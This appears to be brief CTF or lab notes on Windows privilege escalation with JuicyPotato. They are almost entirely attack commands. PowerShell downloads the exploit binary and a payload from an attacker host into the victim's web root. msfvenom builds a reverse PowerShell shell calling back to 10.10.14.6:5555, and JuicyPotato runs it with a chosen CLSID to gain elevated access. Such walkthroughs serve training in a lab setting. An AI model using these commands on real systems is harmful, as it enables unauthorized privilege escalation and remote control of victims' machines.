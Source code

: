 first we need to get this exe onto the machine
`https://github.com/ohpe/juicy-potato/releases`

we use this command to grab the file from our attack machine
`powershell -c "Invoke-WebRequest" -Uri 'http://10.10.14.6:80/JuicyPotato.exe' -OutFile 'c:\inetpub\wwwroot\JuicyPotato.exe'`

---

we generate a batch file for our payload
`msfvenom -p cmd/windows/reverse_powershell lhost=10.10.14.6 lport=5555 > hax.bat`

then we grab it from the victim machine
`powershell -c "Invoke-WebRequest" -Uri 'http://10.10.14.6:80/hax.bat' -OutFile 'c:\inetpub\wwwroot\hax.bat'`

we can grab a CLSID from here: 
`https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/`

we then execute this command to run the batch file
```
JuicyPotato.exe -l 1337 -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}" -p hax.bat -t *
```
